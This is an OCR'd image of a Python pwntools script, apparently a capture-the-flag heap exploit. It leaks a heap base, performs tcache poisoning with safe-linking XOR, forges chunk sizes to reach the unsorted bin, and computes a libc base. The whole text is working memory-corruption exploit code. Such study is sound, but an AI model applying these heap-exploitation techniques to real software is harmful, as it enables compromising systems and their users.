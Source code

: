 ```py
# pause()
load(1,0)
show(0)
# leak heap
p.recvuntil("aaaaaaaaaaaaa||aaaaaaaaaaaaaaaaa")
heap_base = u64(p.recv(5).ljust(8,b"\x00"))*0x1000
log.info("heap_base: "+hex(heap_base))
# leak libc tcache poisoning

target_heap_addr = heap_base + 0x730 # todo
fd = target_heap_addr ^ (heap_base//0x1000)
edit(2,b"a"*0x11+p32(fd%0x100000000))
delete(0)
complete(2) # overwrite fd

load(2,2)

# 注意 create 全用的是 calloc
load(0,0) # 0x2e0
load(0,3)
edit(3,p64(0)+p64(0x41))
edit(4,b"a"*9+p64(0x461))
complete(4)
load(3,4)
fd1 = (heap_base + 0x770) ^ (heap_base//0x1000)
create(7,b"||"+b"a"*0xd,b"a"*0x11+p32(fd1%0x100000000))

create(6,b"||"+b"a"*0xd,b"a"*0x10)
create(5,b"||"+b"a"*0xd,b"a"*0x10)
delete(5)
delete(6)

complete(7)

load(4,7)
load(0,5)
load(0,6)
edit(6,p64(0)+p64(0x41))
fd2 = (heap_base + 0x2d0)^(heap_base//0x1000)

# get a chunk to unsorted bin's size
create(7,b"||"+b"a"*0xd,b"a"*0x11+p32(fd2%0x100000000))
create(6,b"||"+b"a"*0xd,b"a"*0x10)
create(5,b"||"+b"a"*0xd,b"a"*0x10)
delete(5)
delete(6)
complete(7)
load(5,7)
load(0,5)
load(0,6)
edit(6,p64(0)+p64(0x461))


delete(2) # trigger!
complete(4)
load(1,4)
show(4)

p.recvuntil("aaaaaaaaaaaaa||aaaaaaaaaaaaaaaaa")
libc_leak = u64(p.recv(6).ljust(8,b"\x00"))
log.info("libc_leak: "+hex(libc_leak))
libc_base = libc_leak - 0x203b20
log.info("libc_base: "+hex(libc_base))
```